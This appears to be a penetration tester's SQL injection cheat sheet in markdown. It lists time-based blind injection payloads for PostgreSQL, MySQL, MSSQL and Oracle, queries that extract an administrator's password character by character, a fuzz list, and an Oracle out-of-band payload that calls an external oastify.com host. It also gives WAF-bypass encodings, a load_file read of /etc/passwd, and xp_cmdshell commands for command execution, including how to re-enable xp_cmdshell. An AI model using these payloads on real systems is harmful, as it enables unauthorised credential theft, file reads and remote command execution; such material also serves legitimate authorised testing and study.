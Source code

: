 Automation Tool: [[SQLMap]]

***Detection***
 - [ ] Identify where would information be retrieve from data store
 - [ ] Identify data type of input data
 - [ ] Identify possible injection operators
 - [ ] Construct potential SQL statement

Confirming Blind SQLi
- Oracle need to be confirmed using OOB techniques or SQLMap directly.
```sql
-- PostgreSQL
'||(select+case+when+(1=0)+then+pg_sleep(8)+else+pg_sleep(-1)+end)||'
'||(select+case+when+(1=1)+then+pg_sleep(8)+else+pg_sleep(-1)+end)||'

-- MySQL & MariaDB
'+(select if(1=1, sleep(10), 'a')+'
'+(select if(1=0, sleep(10), 'a')+'

-- Microsoft
'+(if (1=1) waitfor delay '0:0:10')+'
'+(if (1=0) waitfor delay '0:0:10')+'

-- Oracle
'||(SELECT CASE WHEN (1=1) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual)||'
'||(SELECT CASE WHEN (1=0) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual)||'
```
Blind Exfiltration
```sql
-- Enumerate password length

'||(select+case+when+(username='administrator'+and+LENGTH(password)>20)+then+pg_sleep(8)+else+pg_sleep(-1)+from+users+end)||'

-- Password
'||(select+case+when+(username='administrator'+and+SUBSTRING(password,1,1)='a')+then+pg_sleep(8)+else+pg_sleep(-1)+from+users+end)||'

'||(select+case+when+(username='administrator'+and+SUBSTRING(password,3,1)='z')+then+pg_sleep(8)+else+pg_sleep(-1)+from+users+end)||'
```
Detection FuZZ
```python
# MySQL & MariaDB
id # column name 
''
""
'+'
"+"
' '
" "
'%20'
"%20"
'%2b'
"%2b"
` # column name injection
``
)
(
()
% # Verify that database is being called (% retrieve all)
\
\\
'\
'\'
&
'&'
"&"
/*
#
;
%3b
//
foo'+'bar
CONCAT('foo','bar')
'-sleep(3)-'
'+sleep(3)+'
"-sleep(3)-"
"+sleep(3)+"
2#
2-- -
2--
(2+1) # Integer Data
(2%2b1)
(2-1)
2+1
2%2b1
2-1
67-ACII('A')
51-ASCII(1)

# SQLite


# PostgreSQL
'||'
"||"
'foo'||'bar'
foo'||'bar
'||pg_sleep(3)||'
"||pg_sleep(3)||"

# Oracle
'||'
"||"
'foo'||'bar'
'||(select+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+rdswv+SYSTEM+"http%3a//if1j93mn00dej9djr7oducx9x03rrhf6.oastify.com">%25rdswv%3b]>'),'/l')+from+dual)||'


# MSSQL
'+'
"+"
WAITFOR DELAY '0:00:03'

```
***WAF Bypasses***
- [ ] WAFW00F reveals WAF
```sql
SeLeCt
SELECT
sElEcT
Select
select
%00SELECT
SELSELECTECT
%53%45%4c%45%43%54
%2553%2545%254c%2545%2543%2554
SELECT/**/username,password/**/FROM/**/users
SELECT/*foo*/username,password/*foo*/FROM/*foo*/users
SEL/*foo*/ECT username,password FR/*foo*/OM users # MySQL
```

***Escalating the Attack***
MySQL Read Files (require FILE_PRIV)
```sql
select load_file('/etc/passwd')
```
MSSQL RCE
```sql
master..xp_cmdshell 'ipconfig > foo.txt'
exec xp_cmdshell 'dir'
```
- Re-enabling xp_cmdshell (sp_configure)
```sql
EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE WITH OVERRIDE
EXECUTE sp_configure 'xp_cmdshell', '1'
RECONFIGURE WITH OVERRIDE
```